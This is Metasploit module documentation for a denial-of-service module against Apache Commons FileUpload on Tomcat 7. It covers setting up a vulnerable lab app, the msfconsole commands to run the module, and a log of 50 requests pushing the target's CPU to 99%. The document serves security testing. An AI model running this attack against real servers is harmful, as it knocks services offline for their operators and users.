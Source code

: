 ## Vulnerable Application

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat7](http://apache.osuosl.org/tomcat/tomcat-7/v7.0.50/bin/apache-tomcat-7.0.50.exe)
3. Download the example [multipart form war file](https://github.com/rapid7/metasploit-framework/files/712278/sample-multipart-form.zip)
4. Unzip sample-multipart-form.zip && cd sample-multipart-form
  1. If Compiling: `mvn clean package`
5.  `cp target/sample-multipart-form.war $TOMCAT-7.0.50/webapps/`
6. Start Tomcat (linux: `$TOMCAT-7.0.50/bin/startup.sh`)
7. Check if the webapp is running: `http://localhost:8080/sample-multipart-form/multipartForm`

## Verification Steps

  1. Install Tomcat, and the vulnerable form
  2. Start msfconsole
  3. Do: ```use auxiliary/dos/http/apache_commons_fileupload_dos```
  4. Do: ```set rhost <rhost>```
  5. Do: ```set TARGETURI <uri>```
  6. Do: ```run```
  7. Tomcat should be utilizing 99%+ of the CPU

## Options

  **TARGETURI**

  The URI where the multipart form is located.  There is no real default and this will change based on the application.

## Scenarios

Scenario uses the sample multipart form provided in this documentation, against Tomcat 7.0.50 on a Windows XP system.

```
msf exploit(handler) > use auxiliary/dos/http/apache_commons_fileupload_dos
msf auxiliary(apache_commons_fileupload_dos) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf auxiliary(apache_commons_fileupload_dos) > set rport 8087
rport => 8087
msf auxiliary(apache_commons_fileupload_dos) > set TARGETURI /sample-multipart-form/multipartForm
TARGETURI => /sample-multipart-form/multipartForm
msf auxiliary(apache_commons_fileupload_dos) > run

[*] Sending request 1 to 192.168.2.108:8087
[*] Sending request 2 to 192.168.2.108:8087
[*] Sending request 3 to 192.168.2.108:8087
[*] Sending request 4 to 192.168.2.108:8087
[*] Sending request 5 to 192.168.2.108:8087
[*] Sending request 6 to 192.168.2.108:8087
[*] Sending request 7 to 192.168.2.108:8087
[*] Sending request 8 to 192.168.2.108:8087
[*] Sending request 9 to 192.168.2.108:8087
[*] Sending request 10 to 192.168.2.108:8087
[*] Sending request 11 to 192.168.2.108:8087
[*] Sending request 12 to 192.168.2.108:8087
[*] Sending request 13 to 192.168.2.108:8087
[*] Sending request 14 to 192.168.2.108:8087
[*] Sending request 15 to 192.168.2.108:8087
[*] Sending request 16 to 192.168.2.108:8087
[*] Sending request 17 to 192.168.2.108:8087
[*] Sending request 18 to 192.168.2.108:8087
[*] Sending request 19 to 192.168.2.108:8087
[*] Sending request 20 to 192.168.2.108:8087
[*] Sending request 21 to 192.168.2.108:8087
[*] Sending request 22 to 192.168.2.108:8087
[*] Sending request 23 to 192.168.2.108:8087
[*] Sending request 24 to 192.168.2.108:8087
[*] Sending request 25 to 192.168.2.108:8087
[*] Sending request 26 to 192.168.2.108:8087
[*] Sending request 27 to 192.168.2.108:8087
[*] Sending request 28 to 192.168.2.108:8087
[*] Sending request 29 to 192.168.2.108:8087
[*] Sending request 30 to 192.168.2.108:8087
[*] Sending request 31 to 192.168.2.108:8087
[*] Sending request 32 to 192.168.2.108:8087
[*] Sending request 33 to 192.168.2.108:8087
[*] Sending request 34 to 192.168.2.108:8087
[*] Sending request 35 to 192.168.2.108:8087
[*] Sending request 36 to 192.168.2.108:8087
[*] Sending request 37 to 192.168.2.108:8087
[*] Sending request 38 to 192.168.2.108:8087
[*] Sending request 39 to 192.168.2.108:8087
[*] Sending request 40 to 192.168.2.108:8087
[*] Sending request 41 to 192.168.2.108:8087
[*] Sending request 42 to 192.168.2.108:8087
[*] Sending request 43 to 192.168.2.108:8087
[*] Sending request 44 to 192.168.2.108:8087
[*] Sending request 45 to 192.168.2.108:8087
[*] Sending request 46 to 192.168.2.108:8087
[*] Sending request 47 to 192.168.2.108:8087
[*] Sending request 48 to 192.168.2.108:8087
[*] Sending request 49 to 192.168.2.108:8087
[*] Sending request 50 to 192.168.2.108:8087
[*] Auxiliary module execution completed
```

 ![tomcat7_dos](https://cloud.githubusercontent.com/assets/752491/22169486/71980e2e-df42-11e6-8353-4f1e260375ee.png)
 